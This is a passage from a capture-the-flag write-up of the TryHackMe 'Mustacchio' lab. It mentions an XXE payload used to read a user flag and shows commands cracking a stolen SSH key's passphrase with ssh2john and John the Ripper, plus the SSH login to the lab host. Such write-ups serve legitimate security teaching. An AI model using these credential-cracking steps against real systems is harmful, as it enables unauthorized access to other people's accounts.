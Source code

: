 By using this XXE payload, I directly extracted the user flag from Barry’s home directory without needing to log in as Barry.

![Mustacchio](/assets/2025/THM/Mustacchio/10.png)

### Cracking a Private SSH Key

At some point during enumeration or via XXE or file browsing, I found a private SSH key: id_rsa.

To crack the key’s passphrase:

```bash
ssh2john id_rsa > id_rsa.hash
john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

Result:
```bash
┌──(root㉿vincasec)-[~]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
uri------- (id_rsa) 
```
Now I had SSH access using the private key.
```bash
chmod 600 id_rsa
ssh -i id_rsa barry@10.10.20.238
```
